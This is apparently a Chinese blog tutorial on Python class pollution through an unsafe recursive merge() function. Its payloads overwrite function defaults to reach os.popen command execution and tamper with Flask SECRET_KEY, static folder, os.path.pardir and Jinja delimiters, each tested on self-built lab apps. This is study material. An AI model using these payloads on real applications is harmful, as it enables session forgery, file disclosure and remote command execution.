那么再来看个特殊的

> 1. **`/` 之前的参数**：
>    - 这些参数是 **位置参数**（positional-only parameters）。
>    - 它们只能通过位置传递，不能通过关键字传递。
> 2. **`/` 和 `*` 之间的参数**：
>    - 这些参数既可以是 **位置参数**，也可以是 **关键字参数**。
>    - 它们可以通过位置或关键字传递。
> 3. **`*` 之后的参数**：
>    - 这些参数是 **关键字参数**（keyword-only parameters）。
>    - 它们只能通过关键字传递，不能通过位置传递。
>    - 有默认值但是不计入`__defualts__`

```python
def a(x,/,y=2,*,z=3):
    pass

a(x=1)
# TypeError: a() got some positional-only arguments passed as keyword arguments: 'x'
```

```python
def a(x,/,y=2,*,z=3):
    pass

a(1,4,6)
# TypeError: a() takes from 1 to 2 positional arguments but 3 were given
```

```python
def a(x,/,y=2,*,z=3):
    print(x,y,z)
    pass

a(1,4,z=6)
print(a.__defaults__)
```

欧克懂了之后来污染吧

```python
def demo(x,name="baozongwi",age="99"):
    if name != "12SqweR":
        print(x)
    else :
        if age != "99":
            print(__import__("os").popen(x).read())
class A:
    def __init__(self):
        pass
def merge(src,dst):
    # 遍历字典中的所有键值对
    for k,v in src.items():
        # 检查dst是否为字典
        if hasattr(dst,'__getitem__'):
            # 如果存在键k并且v是一个字典
            if dst.get(k) and type(v) == dict:
                merge(v,dst.get(k))
            else:
                dst[k]=v
                # 如果dst是一个对象并且有属性k
        elif hasattr(dst,k) and type(v) == dict:
            merge(v,getattr(dst,k))
        else:
            # 将v赋值给k
            setattr(dst,k,v)
a=A()
b=demo
payload={
    "__init__":{
        "__globals__":{
            "demo":{
                "__defaults__":
                    ("12SqweR","100")
            }
        }
    }
}
print(b.__defaults__)

merge(payload,a)
print(b.__defaults__)
c=demo("whoami")
```

这个`__defaults__`的写法一定要对，是元组，不然就失败，当然如果是`True`或者`False`的话，就可以直接写

这里给看看我的错误写法，



首先我加了大括号，不是元组，然后`modules`里面还只有模块,所以直接鸭溪啦

> 后来我查看一些污染类文章发现用`sys`一样可以

```python
import sys

def demo(x, name="baozongwi", age="99"):
    if name != "12SqweR":
        print(x)
    else:
        if age != "99":
            print(__import__("os").popen(x).read())

class A:
    def __init__(self):
        pass

def merge(src, dst):
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

a = A()
b = demo
payload = {
    "__init__": {
        "__globals__": {
            "sys": {
                "modules": {
                    "__main__": {
                        "demo": {
                            "__defaults__": ("12SqweR", "100")
                        }
                    }
                }
            }
        }
    }
}

print(b.__defaults__)  # 输出: ('baozongwi', '99')

merge(payload, a)
print(b.__defaults__)  # 输出: ('12SqweR', '100')

c = demo("whoami")
```

除了`__defaults__`还有`__kwdefaults__`，大差不差，只不过这个是字典，cancan

```python
def func_a(var_1, var_2 =2, var_3 = 3):
    pass

def func_b(var_1, /, var_2 =2, var_3 = 3):
    pass

def func_c(var_1, var_2 =2, *, var_3 = 3):
    pass

def func_d(var_1, /, var_2 =2, *, var_3 = 3):
    pass

print(func_a.__kwdefaults__)
#None
print(func_b.__kwdefaults__)
#None
print(func_c.__kwdefaults__)
#{'var_3': 3}
print(func_d.__kwdefaults__)
#{'var_3': 3}
```

发现只有关键字参数的默认值才会返回

```python
def demo(x,*,name="baozongwi",age="99"):
    if name != "12SqweR":
        print(x)
    else :
        if age != "99":
            print(__import__("os").popen(x).read())

class A:
    def __init__(self):
        pass
def merge(src,dst):
    # 遍历字典中的所有键值对
    for k,v in src.items():
        # 检查dst是否为字典
        if hasattr(dst,'__getitem__'):
            # 如果存在键k并且v是一个字典
            if dst.get(k) and type(v) == dict:
                merge(v,dst.get(k))
            else:
                dst[k]=v
                # 如果dst是一个对象并且有属性k
        elif hasattr(dst,k) and type(v) == dict:
            merge(v,getattr(dst,k))
        else:
            # 将v赋值给k
            setattr(dst,k,v)
a=A()
b=demo
payload={
    "__init__":{
        "__globals__":{
            "demo":{
                "__kwdefaults__": dict(name="12SqweR",age="100")
                # "__kwdefaults__": {"name":"12SqweR","age":"100"}
            }
        }
    }
}
print(b.__kwdefaults__)

merge(payload,a)
print(b.__kwdefaults__)
c=demo("whoami")
```

### 关键信息替换

#### session_key

有些时候当我们不知道key的时候，并且审计代码或者尝试，发现可以污染的时候，那我们可以直接污染为自己想要的可控值，那么此时session就可以任意伪造了

```python
from flask import Flask,request
import json

app = Flask(__name__)
app.config['SECRET_KEY']="who are you"
def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    print(app.config['SECRET_KEY'])
    if request.data:
        merge(json.loads(request.data), instance)
    return "[+]Config:%s"%(app.config['SECRET_KEY'])

app.run(host="0.0.0.0")
```

直接污染

```
POST / HTTP/1.1
Host: 127.0.0.1:5000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
Connection: close
Content-Type: application/json
Content-Length: 189

{
    "__init__":{
        "__globals__":{
            "app":{
                "config":{
                    "SECRET_KEY":"mine"
                }
            }
        }
    }
}
```

#### _got_first_request

这里对版本有要求我们给自己降个级

```
pip install werkzeug==2.0.3
pip install Flask==2.1.0

pip install --upgrade werkzeug
pip install --upgrade Flask
```

等会升级回来就好了

> `_got_first_request` 是 Flask 应用内部的一个属性，用于跟踪是否已经处理了第一个请求。这个属性主要用于实现 `before_first_request` 装饰器的功能，但在 Flask 2.2.0 版本中，`before_first_request` 装饰器已经被移除，因此 `_got_first_request` 也失去了其主要用途。

就是场景就是有些时候为了安全，会只允许一些特定操作，比如必须在`before_first_request` 装饰器实现一些东西，看看这个装饰器的源码

```python
class Flask(WerkzeugApp):
    # ... 其他代码 ...

    def __init__(self, import_name, static_url_path=None, static_folder='static',
                 static_host=None, host_matching=False, subdomain_matching=False,
                 template_folder='templates', instance_path=None,
                 instance_relative_config=False, root_path=None):
        # ... 初始化代码 ...
        self.before_first_request_funcs = []
        # ... 其他初始化代码 ...

    def before_first_request(self, f):
        """Register a function to be run before the first request only."""
        self.before_first_request_funcs.append(f)
        return f

    def _got_first_request(self):
        if self._got_first_request:
            return
        self._got_first_request = True
        for func in self.before_first_request_funcs:
            func()

    def process_response(self, response):
        """Can be overridden in order to modify the response object before it's sent to the client."""
        # ... 其他代码 ...
        self._got_first_request()
        # ... 其他代码 ...
        return response

    def preprocess_request(self):
        """Called before the actual request dispatching and will ensure that
        :meth:`before_request` functions and URL value matching are done.  If
        this returns a response the regular request handling is skipped and the
        returned response is sent instead.
        """
        # ... 其他代码 ...
        self._got_first_request()
        # ... 其他代码 ...
        return None
```

主要就是这里

```python
def _got_first_request(self):
        if self._got_first_request:
            return
        self._got_first_request = True
        for func in self.before_first_request_funcs:
            func()
```

也就是说我们如果要调用这个装饰器中的函数，必须让`_got_first_request`为`false`

这里我们如果可以污染的话就非常`good`

```python
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

flag = "Is flag here?"

@app.before_first_request
def init():
    global flag
    if hasattr(app, "special") and app.special == "U_Polluted_It":
        flag = open("flag", "rt").read()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    global flag
    setattr(app, "special", "U_Polluted_It")
    return flag

app.run(host="0.0.0.0")

```

还要创建一个flag文件，自己随便来

```
POST / HTTP/1.1
Host: 127.0.0.1:5000
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
sec-ch-ua: "Google Chrome";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
sec-fetch-site: none
sec-fetch-mode: navigate
sec-fetch-user: ?1
sec-fetch-dest: document
Connection: close
Content-Type: application/json
Content-Length: 145

{
    "__init__":{
        "__globals__":{
            "app":{
                "_got_first_request":false
            }
        }
    }
}
```

这里还有一个点，就是因为版本问题`false`必须写成这样子，而不是`False`

#### _static_url_path

这个属性用于定义静态文件的目录，默认情况下，Flask 会从 `static` 文件夹中提供静态文件。所以我们只要污染这个属性就可以进行目录穿越

```python
class Flask(WerkzeugApp):
    def __init__(self, import_name, static_url_path=None, static_folder='static',
                 static_host=None, host_matching=False, subdomain_matching=False,
                 template_folder='templates', instance_path=None,
                 instance_relative_config=False, root_path=None):
        # ... 其他初始化代码 ...
        
        if static_url_path is not None:
            self._static_url_path = static_url_path
        else:
            self._static_url_path = '/static'

        if static_folder is not None:
            self.static_folder = static_folder
        else:
            self.static_folder = 'static'

        # ... 其他初始化代码 ...
```

查了一下，`_static_folder`控制了实际静态文件所在位置，我们自己起环境试试

```html
<html>
<h1>hello</h1>
<body>    
</body>
</html>
```

```python
from flask import Flask,request
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "flag in ./flag but heres only static/index.html"


app.run(host="0.0.0.0")
```

还得是服务器啊，本地老是出问题，不知道为啥

```
POST / HTTP/1.1
Host: ip:5000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: psession=65b25e9d-b6c8-4b71-bb63-9417e0d14c45
Connection: close
Content-Type: application/json
Content-Length: 142

{
    "__init__":{
        "__globals__":{
            "app":{
                "_static_folder":"./"
            }
        }
    }
}
```

然后污染成功就可以啦

```
GET /static/flag HTTP/1.1
Host: ip:5000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: psession=65b25e9d-b6c8-4b71-bb63-9417e0d14c45
Connection: close


```

注意搭建环境的时候目录是这样的



#### os.path.pardir

这里`test`时把`static`文件夹改成`templates`

```python
from flask import Flask,request,render_template
import json
import os

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "flag in ./flag but u just can use /file to vist ./templates/file"

@app.route("/<path:path>")
def render_page(path):
    if not os.path.exists("templates/" + path):
        return "not found", 404
    return render_template(path)

app.run(host="0.0.0.0",port=5000,debug=True)
```

这里很明显我们要目录穿越，但是它只让我们查看`/templates`里面的文件，那怎么办呢，先穿越，打出报错(但是像之前进行pin码计算一样，我也不能稳定的打出报错)，访问`/test.py`打出报错，由于我们这里是因为渲染的报错，所以我们跟进这个



使用`Ctrl+鼠标左键`跟进来之后发现




继续跟进，注意我们这里是因为`path`的原因导致的渲染失败，所以我们进来找`path`



这个函数把我们的路径进行拆分，估计是这里有问题，还有就是我标的那个符号，引用**Infernity**师傅的话

> 这个符号名为重写符号，对父类进行重写，我们跟进的时候只需要看自己需要哪个，就找哪个

所以这里我们是路径问题，找到了第二个`get_source`函数，继续跟进



欧克啊终于是找到了，那么污染

```python
POST / HTTP/1.1
Host: ip:5000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: psession=65b25e9d-b6c8-4b71-bb63-9417e0d14c45
Connection: close
Content-Type: application/json
Content-Length: 179

{
    "__init__":{
        "__globals__":{
            "os":{
                "path":{
                    "pardir":"?"
                }
            }
        }
    }
}
```

```
GET /../flag HTTP/1.1
Host: ip:5000
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: psession=65b25e9d-b6c8-4b71-bb63-9417e0d14c45
Connection: close


```

#### jinja_SSTI

大家常见的是`{{}}`，但是有些特殊情况有这个是，那么我们就可以污染一下，使得其他符号也能做到相同的效果

```html
<html>
<h1>Look this -> [[flag]] <- try to make it become the real flag</h1>
<body>    
</body>
</html>
```

```python
from flask import Flask,request,render_template
import json

app = Flask(__name__)

def merge(src, dst):
    # Recursive merge function
    for k, v in src.items():
        if hasattr(dst, '__getitem__'):
            if dst.get(k) and type(v) == dict:
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

class cls():
    def __init__(self):
        pass

instance = cls()

@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "go check /index before merge it"


@app.route('/index',methods=['POST', 'GET'])
def templates():
    return render_template("index.html", flag = open("flag", "rt").read())

app.run(host="0.0.0.0",port=5000,debug=True)
```

这边尝试了一会儿，都拿不到报错消息，那我们本是是不是`jinja`的问题，那我们直接进`flask`，这里的目的就是污染`jinja`标识符为`[[]]`，那样子我们就可以拿到flag了，找不到跟进哪里了，那看看官方文档`https://jinja.palletsprojects.com/en/3.1.x/api/#jinja2.Environment`



然后还是找不到，不过我们知道了一些重要消息，`variable_start_string`，`variable_end_string`，直接问AI知道是这里



好了，这里我们直接跟进，发现啥玩意，找不到任何东西



很显然么有任何用，但是看了看也才200多行，可以直接浏览一下，发现有很多类似于这种东西`app.jinja_env.from_string`，那我们此时直接替换成我们的不就可以了

```
POST / HTTP/1.1
Host: ip:5000
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Cookie: psession=65b25e9d-b6c8-4b71-bb63-9417e0d14c45
Connection: close
Content-Type: application/json
Content-Length: 250

{
    "__init__":{
        "__globals__":{
            "app":{
                "jinja_env":{
                    "variable_start_string":"[[",
                    "variable_end_string":"]]"
                }
            }
        }
    }
}
```

再访问`index`就拿到`flag`了，但是这里仍然有个小细节，就是如果直接跟着提示进入了`/index`，那么再次进行污染是不会被解析的

> `Flask`默认会对一定数量内的模板文件编译渲染后进行缓存，下次访问时若有缓存则会优先渲染缓存，所以输入`payload`污染之后虽然语法标识符被替换了，但渲染的内容还是按照污染前语生成的缓存，由于缓存编译时并没有存在`flag`变量，所以自然没有被填充`flag`。

所以我们要先污染，再进行访问

### padash

这个模块里面的函数和merge基本相同，同样可以做到污染的事情，后面再研究

# 0x03 小结

